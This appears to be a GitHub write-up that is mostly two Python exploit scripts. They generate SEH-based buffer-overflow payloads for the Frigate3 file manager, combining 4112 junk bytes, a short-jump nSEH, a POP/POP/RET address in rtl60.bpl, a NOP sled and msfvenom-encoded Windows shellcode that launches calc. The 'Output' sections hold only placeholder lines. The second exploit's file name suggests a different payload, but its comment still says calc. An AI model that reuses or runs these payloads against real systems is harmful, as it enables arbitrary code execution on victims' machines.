





## Generate Payload

```
#-*- coding: cp1252 -*-  
f= open("payload_calc.txt", "w")  
junk="A" * 4112  
nseh="\xeb\x20\x90\x90"  
seh="\x4B\x0C\x01\x40"  
#40010C4B 5B POP EBX  
#40010C4C 5D POP EBP  
#40010C4D C3 RETN  
#POP EBX ,POP EBP, RETN | [rtl60.bpl] (C:\Program Files\Frigate3\rtl60.bpl)  
nops="\x90" * 50  
```
```bash
# msfvenom -a x86 --platform windows -p windows/exec CMD=calc -e x86/alpha_mixed -b 
"\x00\x14\x09\x0a\x0d" -f python  
buf = b""
buf += b"\x89\xe1\xdb\xc4\xd9\x71\xf4\x59\x49\x49\x49\x49\x49"  
buf += b"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37"  
buf += b"\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"  
buf += b"\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"  
buf += b"\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x79\x78\x4f\x72"  
buf += b"\x55\x50\x47\x70\x75\x50\x45\x30\x6d\x59\x4b\x55\x46"  
buf += b"\x51\x69\x50\x33\x54\x4e\x6b\x62\x70\x44\x70\x4c\x4b"  
buf += b"\x56\x32\x36\x6c\x4c\x4b\x76\x32\x57\x64\x4e\x6b\x44"  
buf += b"\x32\x46\x48\x34\x4f\x4f\x47\x61\x5a\x47\x56\x70\x31"  
buf += b"\x39\x6f\x4e\x4c\x45\x6c\x63\x51\x63\x4c\x45\x52\x56"  
buf += b"\x4c\x67\x50\x79\x51\x6a\x6f\x56\x6d\x65\x51\x6a\x67"  
buf += b"\x78\x62\x39\x62\x30\x52\x61\x47\x6c\x4b\x32\x72\x64"  
buf += b"\x50\x6e\x6b\x61\x5a\x47\x4c\x4c\x4b\x70\x4c\x62\x31"  
buf += b"\x31\x68\x59\x73\x77\x38\x36\x61\x4b\x61\x36\x31\x6e"  
buf += b"\x6b\x31\x49\x57\x50\x77\x71\x79\x43\x6c\x4b\x51\x59"  
buf += b"\x52\x38\x49\x73\x76\x5a\x31\x59\x4e\x6b\x66\x54\x4e"  
buf += b"\x6b\x56\x61\x6a\x76\x55\x61\x6b\x4f\x4e\x4c\x6f\x31"  
buf += b"\x38\x4f\x44\x4d\x47\x71\x69\x57\x70\x38\x6d\x30\x64"  
buf += b"\x35\x39\x66\x63\x33\x53\x4d\x6a\x58\x55\x6b\x63\x4d"  
buf += b"\x76\x44\x52\x55\x6a\x44\x42\x78\x6c\x4b\x63\x68\x56"  
buf += b"\x44\x67\x71\x68\x53\x55\x36\x6c\x4b\x74\x4c\x42\x6b"  
buf += b"\x4c\x4b\x50\x58\x67\x6c\x76\x61\x48\x53\x6e\x6b\x77"  
buf += b"\x74\x6e\x6b\x63\x31\x58\x50\x6d\x59\x73\x74\x57\x54"  
buf += b"\x56\x44\x33\x6b\x71\x4b\x30\x61\x52\x79\x70\x5a\x42"  
buf += b"\x71\x79\x6f\x49\x70\x63\x6f\x53\x6f\x71\x4a\x4e\x6b" 
buf += b"\x74\x52\x38\x6b\x4c\x4d\x43\x6d\x31\x7a\x45\x51\x6e"  
buf += b"\x6d\x6e\x65\x4c\x72\x57\x70\x37\x70\x47\x70\x30\x50"  
buf += b"\x73\x58\x30\x31\x6c\x4b\x32\x4f\x4c\x47\x4b\x4f\x7a"  
buf += b"\x75\x4d\x6b\x5a\x50\x6d\x65\x49\x32\x62\x76\x70\x68"  
buf += b"\x4d\x76\x4f\x65\x6f\x4d\x6d\x4d\x4b\x4f\x59\x45\x55"  
buf += b"\x6c\x37\x76\x43\x4c\x55\x5a\x6b\x30\x4b\x4b\x4b\x50"  
buf += b"\x54\x35\x46\x65\x6f\x4b\x33\x77\x55\x43\x61\x62\x32"  
buf += b"\x4f\x70\x6a\x55\x50\x33\x63\x6b\x4f\x58\x55\x61\x73"  
buf += b"\x33\x51\x70\x6c\x71\x73\x47\x70\x41\x41"  
payload_calc = junk + nseh + seh + nops + buf  
f.write(payload_calc)  
f.close
```

## Output:


> output payload


> exploiting


> result

## Exploit 2

```
# -*- coding: cp1252 -*-  
f= open("payload_cont.txt", "w")  
junk="A" * 4112  
nseh="\xeb\x20\x90\x90"  
seh="\x4B\x0C\x01\x40"  
#40010C4B 5B POP EBX  
#40010C4C 5D POP EBP  
#40010C4D C3 RETN  
#POP EBX ,POP EBP, RETN | [rtl60.bpl] (C:\Program Files\Frigate3\rtl60.bpl)  
nops="\x90" * 50 
```

```bash
# msfvenom -a x86 --platform windows -p windows/exec CMD=calc -e x86/alpha_mixed -b 
"\x00\x14\x09\x0a\x0d" -f python  
buf = b"" 
buf += b"\x89\xe7\xd9\xee\xd9\x77\xf4\x5d\x55\x59\x49\x49\x49"  
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"  
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"  
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"  
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x79\x78\x4f"  
buf += b"\x72\x47\x70\x75\x50\x57\x70\x61\x70\x4c\x49\x59\x75"  
buf += b"\x56\x51\x6b\x70\x51\x74\x6e\x6b\x46\x30\x64\x70\x4e"  
buf += b"\x6b\x70\x52\x46\x6c\x4c\x4b\x32\x72\x62\x34\x6e\x6b"  
buf += b"\x53\x42\x56\x48\x46\x6f\x6f\x47\x51\x5a\x61\x36\x54"  
buf += b"\x71\x79\x6f\x4c\x6c\x47\x4c\x55\x31\x53\x4c\x54\x42"  
buf += b"\x46\x4c\x45\x70\x59\x51\x48\x4f\x64\x4d\x77\x71\x49"  
buf += b"\x57\x4a\x42\x39\x62\x76\x32\x63\x67\x6c\x4b\x76\x32"  
buf += b"\x34\x50\x6c\x4b\x51\x5a\x55\x6c\x6c\x4b\x70\x4c\x74"  
buf += b"\x51\x63\x48\x78\x63\x72\x68\x53\x31\x6b\x61\x30\x51"  
buf += b"\x6e\x6b\x73\x69\x67\x50\x75\x51\x79\x43\x6c\x4b\x37"  
buf += b"\x39\x52\x38\x39\x73\x75\x6a\x73\x79\x6e\x6b\x67\x44"  
buf += b"\x4e\x6b\x77\x71\x58\x56\x35\x61\x69\x6f\x4c\x6c\x4a"  
buf += b"\x61\x68\x4f\x44\x4d\x55\x51\x79\x57\x57\x48\x59\x70"  
buf += b"\x52\x55\x59\x66\x77\x73\x53\x4d\x5a\x58\x35\x6b\x43"  
buf += b"\x4d\x54\x64\x32\x55\x69\x74\x46\x38\x6e\x6b\x50\x58" 
buf += b"\x46\x44\x76\x61\x4b\x63\x73\x56\x6e\x6b\x34\x4c\x52"  
buf += b"\x6b\x6c\x4b\x63\x68\x47\x6c\x57\x71\x68\x53\x4e\x6b"  
buf += b"\x46\x64\x6c\x4b\x75\x51\x6e\x30\x6f\x79\x43\x74\x67"  
buf += b"\x54\x74\x64\x53\x6b\x51\x4b\x53\x51\x31\x49\x72\x7a"  
buf += b"\x52\x71\x4b\x4f\x69\x70\x63\x6f\x53\x6f\x50\x5a\x4c"  
buf += b"\x4b\x74\x52\x58\x6b\x4c\x4d\x33\x6d\x51\x7a\x77\x71"  
buf += b"\x4e\x6d\x6b\x35\x6f\x42\x37\x70\x47\x70\x73\x30\x30"  
buf += b"\x50\x31\x78\x76\x51\x6e\x6b\x30\x6f\x4f\x77\x69\x6f"  
buf += b"\x38\x55\x4f\x4b\x78\x70\x4e\x55\x59\x32\x43\x66\x71"  
buf += b"\x78\x6d\x76\x4a\x35\x6f\x4d\x6f\x6d\x39\x6f\x78\x55"  
buf += b"\x67\x4c\x47\x76\x51\x6c\x45\x5a\x4b\x30\x69\x6b\x4d"  
buf += b"\x30\x52\x55\x67\x75\x4f\x4b\x51\x57\x66\x73\x33\x42"  
buf += b"\x30\x6f\x52\x4a\x45\x50\x73\x63\x4b\x4f\x58\x55\x30"  
buf += b"\x63\x32\x4f\x72\x4e\x34\x34\x32\x52\x50\x6f\x70\x6c"  
buf += b"\x47\x70\x41\x41"  
payload_cont = junk + nseh + seh + nops + buf  
f.write(payload_cont)  
f.close
```

## Output


> output payload


> exploiting


> result
